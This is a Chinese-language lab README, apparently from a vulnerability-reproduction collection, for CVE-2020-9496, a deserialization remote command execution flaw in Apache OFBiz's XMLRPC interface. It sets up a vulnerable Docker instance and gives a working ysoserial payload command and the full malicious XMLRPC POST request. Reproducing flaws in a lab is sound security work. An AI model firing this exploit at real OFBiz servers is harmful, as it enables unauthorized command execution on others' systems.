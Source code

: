 # Apache OfBiz 反序列化命令执行漏洞（CVE-2020-9496）

Apache OFBiz是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新J2EE/XML规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。 OFBiz最主要的特点是OFBiz提供了一整套的开发基于Java的web应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

其17.12.04版本之前的XMLRPC接口存在一处反序列化漏洞，攻击者利用这个漏洞可以在目标服务器上执行任意命令。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-069-apache_ofbiz
- https://github.com/dwisiswant0/CVE-2020-9496
- https://www.cnblogs.com/ph4nt0mer/p/13576739.html

## 漏洞环境

执行如下命令启动一个Apache OfBiz 17.12.01版本：

```
docker-compose up -d
```

在等待数分钟后，访问`https://your-ip/myportal/control/main`查看到登录页面，说明环境已启动成功。

## 漏洞复现

由于默认情况下没有报错信息，所以使用[参考连接2](https://github.com/dwisiswant0/CVE-2020-9496)中给出的方法无法正确判断漏洞是否存在，还是需要通过执行反序列化来复现漏洞。

使用[ysoserial](https://github.com/frohoff/ysoserial)的CommonsBeanutils1来生成Payload：

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" | base64 | tr -d "\n"
```

![](1.png)

将base64后的payload替换并发送如下数据包：

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![](2.png)

进入容器中，可见`touch /tmp/success`已成功执行：

![](3.png)
